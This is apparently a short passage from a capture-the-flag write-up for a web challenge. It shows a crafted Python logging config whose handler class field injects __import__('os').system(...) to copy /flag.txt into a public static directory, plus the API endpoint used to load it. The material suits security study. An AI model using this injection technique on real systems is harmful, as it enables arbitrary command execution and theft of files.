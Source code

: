  ```

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/e4f13e1c1fe5392be35c504d4635af/whatever_dfa55f8c4266d1a841ef')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s 
``` 

![](https://github.com/anas-cherni/CTF-writeups/blob/main/CSAW%20quals%202k2022%20-%20full%20web/Good%20Intentions/evil.png?raw=true)

* /api/config_log to enable config